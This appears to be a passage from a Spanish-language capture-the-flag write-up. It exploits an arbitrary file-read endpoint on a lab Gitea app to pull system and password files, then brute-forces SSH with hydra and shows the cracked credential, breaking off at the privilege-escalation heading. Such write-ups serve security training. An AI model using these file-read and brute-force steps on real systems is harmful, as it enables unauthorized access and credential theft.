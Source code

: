 ```bash
/Designer             (Status: 200) [Size: 27637]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

Al meternos en **explore**, vemos cosas interesantes.
# EXPLOTACION

En el repo **myapp**, vemos que es el repositorio de gitea.dl.

En app.py, podemos ver un método **GET download** con el que gracias al parámetro filename nos podemos descargar archivos.

Adema, en el repo **giteaInfo**, nos leakea una dir de interés.

Uso del endpoint:

```bash
http://gitea.dl/download?filename=/etc/hosts
```

Vemos que las dos primeras direcciones no nos deja, pero el **/opt/info.txt** si.

Usamos **sed** :

```bash
sed -E 's/^user[0-9]+:([^ ]+) -.*$/\1/' info.txt > pass.txt
```

Usamos **hydra**:

```bash
hydra -l designer -P pass.txt ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-21 11:41:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 50 tasks per 1 server, overall 50 tasks, 50 login tries (l:1/p:50), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: designer   password: SuperSecurePassword123 
of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 11 final worker threads did not complete until end.
[ERROR] 11 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-21 11:41:11
```

YA ESTAMOS COMO DESIGNER.
# ESCALADA PRIVILEGIOS
